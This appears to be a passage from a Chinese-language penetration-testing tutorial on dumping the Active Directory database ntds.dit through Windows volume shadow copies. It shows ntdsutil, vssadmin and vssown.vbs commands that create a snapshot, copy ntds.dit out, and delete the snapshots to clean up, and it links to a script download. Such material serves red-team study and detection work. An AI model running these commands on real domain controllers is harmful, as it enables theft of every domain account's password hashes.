 查询当前系统中的快照，可以看到没有任何快照

```
ntdsutil snapshot "List All" quit quit
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210908135855.png)

### vssadmin

vssadmin 可用于创建和删除卷影拷贝、列出卷影的信息（只能管理系统 Provider 创建的卷影拷贝）、显示已安装的所有卷影拷贝写入程序（writers）和提供程序（providers），以及改变卷影拷贝的存储空间（即所谓的 “diff 空间”）的大小等。

vssadmin 的使用流程和 ntdsutil 差不多，首先创建一个 C 盘的卷影拷贝

```
vssadmin create shadow /for=C:
```

在创建的卷影拷贝中将 ntds.dit 复制出来

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12\windows\NTDS\ntds.dit C:\ntds.dit
```

删除快照

```
vssadmin delete shadows /for=C: /quiet
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210908145721.png)

### vssown.vbs

vssown.vbs 脚本的功能和 vssadmin 类似，可用于创建和删除卷影拷贝以及启动和停止卷影拷贝服务。

vssown.vbs 下载地址：[https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs](https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs)

启动卷影拷贝服务

```
cscript vssown.vbs /start
```

创建一个 C 盘的卷影拷贝

```
cscript vssown.vbs /create c
```

列出当前卷影拷贝

```
cscript vssown.vbs /list
```

复制 ntds.dit

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy14\windows\NTDS\ntds.dit C:\ntds.dit
```
